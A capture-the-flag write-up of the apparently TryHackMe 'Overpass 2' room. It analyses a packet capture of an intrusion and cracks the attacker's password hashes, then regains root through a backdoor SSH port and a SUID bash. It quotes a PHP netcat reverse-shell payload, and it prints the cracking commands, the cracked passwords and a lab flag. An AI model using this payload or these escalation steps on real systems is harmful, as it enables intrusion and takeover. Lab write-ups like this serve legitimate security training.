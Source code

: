 
- - - 
created : 18-07-2025 

Tags : #easy #Forensics
- - - 
# Objective

Overpass has been hacked! The SOC team (Paradox, congratulations on the promotion) noticed suspicious activity on a late night shift while looking at shibes, and managed to capture packets as the attack happened.

Can you work out how the attacker got in, and hack your way back into [Overpass](./Overpass.md) production server?

Note: Although this room is a walkthrough, it expects familiarity with tools and Linux. I recommend learning basic [Wireshark](../../3%20-%20Tags/Hacking%20Tools/Wireshark.md) and completing [Linux Fundamentals](https://tryhackme.com/module/linux-fundamentals) as a bare minimum.  

md5sum of PCAP file: 11c3b2e9221865580295bc662c35c6dc

# Recon

## WireShark

First we look into the download and we have a [Wireshark](../../3%20-%20Tags/Hacking%20Tools/Wireshark.md) capture file :

![Pasted image 20250718204403.png](../../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250718204403.png)

So we have a payload and the URL .

We can also see the [Payload](../../3%20-%20Tags/Hacking%20Concepts/Payload.md) :

![Pasted image 20250718205213.png](../../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250718205213.png)

```
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```

We can find the password used for escalation by searching for the string 'passw' :

![Pasted image 20250718210221.png](../../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250718210221.png)

![Pasted image 20250718210608.png](../../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250718210608.png)

A [Persistence](../../3%20-%20Tags/Hacking%20Concepts/Persistence.md) attempt :

![Pasted image 20250718210844.png](../../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250718210844.png)

We can find all the password retrieved by the attacker :

![Pasted image 20250718211408.png](../../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250718211408.png)

## John The Ripper

Now we can crack all the passwords with [JohnTheRipper](../../3%20-%20Tags/Hacking%20Tools/JohnTheRipper.md) and see how many we got with the fasttrack.txt wordlist :

```
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/Overpass2]
└─$ john passwd /usr/share/wordlists/fasttrack.txt 
Warning: only loading hashes of type "sha512crypt", but also saw type "tripcode"
Use the "--format=tripcode" option to force loading hashes of that type instead
Using default input encoding: UTF-8
Loaded 5 password hashes with 5 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 12 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst

secret12         (bee)
abcd123          (szymex)
1qaz2wsx         (muirland)
secuirty3        (paradox)
```

So we have 4 .

## Backdoor Analysis

We can now analyze the [Backdoor](../../3%20-%20Tags/Hacking%20Concepts/Backdoor.md) used as [Payload](../../3%20-%20Tags/Hacking%20Concepts/Payload.md), to do that we are going to actually download it and read it, we can find the [Hash](../../3%20-%20Tags/Hacking%20Concepts/Hash.md) of the [Backdoor](../../3%20-%20Tags/Hacking%20Concepts/Backdoor.md) :

![Pasted image 20250718212952.png](../../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250718212952.png)

In order to find the hardcoded salt we are going to have to analyze the source code. We are able to do this on the GitHub website. The piece that we are specifically looking for is going to be in the main.go portion of code :

![Pasted image 20250718213115.png](../../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250718213115.png)ù

We saw previously that the attacker used a custom hash :

![Pasted image 20250718213837.png](../../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250718213837.png) :

The salt (remember that the salt is hardcoded) is appended to the password, and [SHA512](../../3%20-%20Tags/Hacking%20Concepts/SHA512.md) of the resulting string makes the hash. To summarize, we have :
```
 SHA512(password + '1c362db832f3f864c8c2fe05f2002a05') = '6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed'
```

Now, let’s crack it with [Hashcat](../../3%20-%20Tags/Hacking%20Tools/Hashcat.md) (we’ll use the mode `1710`, which corresponds to `sha512($pass.$salt)`):

```
$ hashcat --force -m 1710 -a 0 hash.txt /usr/share/wordlists/rockyou.txt

6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05:november16
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Type........: sha512($pass.$salt)
Hash.Target......: 6d05358f090eea56a238af02e47d44ee5489d234810ef624028...002a05
Time.Started.....: Sun Aug 16 18:44:00 2020 (2 secs)
Time.Estimated...: Sun Aug 16 18:44:02 2020 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   149.3 kH/s (0.50ms) @ Accel:1024 Loops:1 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 18432/14344385 (0.13%)
Rejected.........: 0/18432 (0.00%)
Restore.Point....: 16384/14344385 (0.11%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: christal -> tanika
```

# Hacking

Now that the incident is investigated, Paradox needs someone to take control of the Overpass production server again.

There’s flags on the box that Overpass can’t afford to lose by formatting the server!

## Website 

So the port 80 is showing this message :

![Pasted image 20250718214928.png](../../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250718214928.png)

## SSH

We can access [SSH](../../3%20-%20Tags/Hacking%20Concepts/SSH.md) with james and the cracked password on port 2222 (see payload) :

```
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/Overpass2]
└─$ ssh james@10.10.173.247 -p 2222         
The authenticity of host '10.10.173.247 (10.10.173.247)' can't be established.
ED25519 key fingerprint is SHA256:M+alDmfQ9SPk8CLKIRe6QQD9sNcr/ptoDNbQLZDzIqs.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.173.247' (ED25519) to the list of known hosts.
root@10.10.173.247's password: 
```

tried the **password** retrieved from cracking the **SHA-512 hash** earlier with [Hashcat](../../3%20-%20Tags/Hacking%20Tools/Hashcat.md). This failed for port 22 but worked for port 2222, now we cat the user flag :

```
root@ip-10-10-50-126:~# ssh james@10.10.53.38 -p 2222
The authenticity of host '[10.10.53.38]:2222 ([10.10.53.38]:2222)' can't be established.
RSA key fingerprint is SHA256:z0OyQNW5sa3rr6mR7yDMo1avzRRPcapaYwOxjttuZ58.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '[10.10.53.38]:2222' (RSA) to the list of known hosts.
james@10.10.53.38's password: 
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

james@overpass-production:/home/james/ssh-backdoor$ id
uid=1000(james) gid=1000(james) groups=1000(james),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
james@overpass-production:/home/james/ssh-backdoor$ 
```
# Privilege Escalation

In the directory of current logged user have **[.suid_bash](https://gtfobins.github.io/gtfobins/bash/#suid)** :

```
james@overpass-production:/home/james$ ls -la
total 1136
drwxr-xr-x 7 james james    4096 Jul 22  2020 .
drwxr-xr-x 7 root  root     4096 Jul 21  2020 ..
lrwxrwxrwx 1 james james       9 Jul 21  2020 .bash_history -> /dev/null
-rw-r--r-- 1 james james     220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 james james    3771 Apr  4  2018 .bashrc
drwx------ 2 james james    4096 Jul 21  2020 .cache
drwx------ 3 james james    4096 Jul 21  2020 .gnupg
drwxrwxr-x 3 james james    4096 Jul 22  2020 .local
-rw------- 1 james james      51 Jul 21  2020 .overpass
-rw-r--r-- 1 james james     807 Apr  4  2018 .profile
-rw-r--r-- 1 james james       0 Jul 21  2020 .sudo_as_admin_successful
-rwsr-sr-x 1 root  root  1113504 Jul 22  2020 .suid_bash
drwxrwxr-x 3 james james    4096 Jul 22  2020 ssh-backdoor
-rw-rw-r-- 1 james james      38 Jul 22  2020 user.txt
drwxrwxr-x 7 james james    4096 Jul 21  2020 www
```

We got root and readed the txt file

```
james@overpass-production:/home/james$ ./.suid_bash -p
.suid_bash-4.4# whoami
root
.suid_bash-4.4# cat /root/root.txt
thm{d53b2684f169360bb9606c333873144d}
```

Pwned !!